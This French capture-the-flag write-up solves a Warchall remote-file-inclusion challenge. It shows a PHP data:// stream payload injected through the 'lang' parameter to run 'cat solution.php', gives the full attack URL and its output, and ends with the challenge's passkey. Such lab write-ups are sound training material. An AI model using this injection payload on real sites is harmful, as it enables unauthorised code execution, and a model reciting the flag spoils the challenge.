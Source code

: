 _RFI (Remote File Inclusion)_  est une vulnérabilité de sécurité qui peut survenir dans les applications web en utilisant Data Stream.
Il mentionne l'utilisation de Data Stream avec l'exemple suivant : *data://text/plain,<?php echo file_get_contents("solution.php"); ?>*.

Pour notre probleme, il faut voir le contenu de fichier *solution.php*

**Etape à suivre**
1. Allez dans le lien principal de [RFI](https://rfi.warchall.net/)
2. Cliquer sur le logo de langue (choix de langue) => exemple : [RFI langue](https://rfi.warchall.net/index.php?lang=en)
3. Effacer "en" et remplacer par la methode d'attaque Data stream => data://text/plain,<?php echo`cat solution.php`; ?>
[lien complet](https://rfi.warchall.net/index.php?lang=data://text/plain,%3C?php%20echo`cat%20solution.php`;%20?%3E)
4. Après, il donne ça : 
````sh
NOTHING HERE????

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36
````
Il suggère que c'est pas là !!!

5. Donc, Il faut inspecter ce site et la solution est là (^,^)
````sh
<!--?php return 'Low_H4NGING_Fruit'; ?-->
````
The passkey is : **Low_H4NGING_Fruit**







